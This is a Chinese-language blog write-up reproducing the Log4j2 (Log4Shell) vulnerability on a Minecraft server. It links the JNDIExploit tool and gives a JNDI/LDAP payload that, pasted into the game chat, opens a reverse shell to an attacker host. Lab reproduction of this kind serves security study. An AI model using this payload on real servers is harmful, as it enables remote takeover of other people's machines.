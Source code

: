 <!-- SEO header -->
# Minecraft-ApacheLog4j2
# Minecraft中的Log4j2漏洞复现
## 准备工作：
* Minecraft服务器一台(靶机IP:targeted_ip)
* Minecraft1.7-1.18官方服务端
* 攻击机一台(攻击机IP:hacking_ip)
## 复现过程：
下载工具
[JNDIExploit](https://github.com/Mr-xn/JNDIExploit-1/releases/tag/v1.2 'None')
根据操作文档：
![None](https://potatowo233.github.io/2023/10/11/Minecraft-ApacheLog4j2/image-20231010012501634.png 'None')
在攻击机上开启jndi服务：
![None](https://potatowo233.github.io/2023/10/11/Minecraft-ApacheLog4j2/image-20231010012620627.png 'None')
攻击机开启监听端口：
![None](https://potatowo233.github.io/2023/10/11/Minecraft-ApacheLog4j2/image-20231010012824170.png 'None')
根据操作文档，构造：
```
ldap://hacking_ip:1389/Basic/ReverseShell/hacking_ip/7890
```
最终payload：
```
${jndi:ldap://hacking_ip:1389/Basic/ReverseShell/hacking_ip/7890}
```
进入服务器，在聊天框内输入payload：
![None](https://potatowo233.github.io/2023/10/11/Minecraft-ApacheLog4j2/image-20231010013207406.png 'None')
反弹shell：
![None](https://potatowo233.github.io/2023/10/11/Minecraft-ApacheLog4j2/image-20231010013318644.png 'None')
可能导致线程崩溃，拿到shell之后重新开服即可
## 参考资料：
* Minecraft处Log4j漏洞报告
* JNDIExploit工具
* Minecraft开服
[#cve](https://potatowo233.github.io/tags/cve/ 'None')
[php原生类Next](https://potatowo233.github.io/2023/09/21/php%E5%8E%9F%E7%94%9F%E7%B1%BB/ 'php原生类')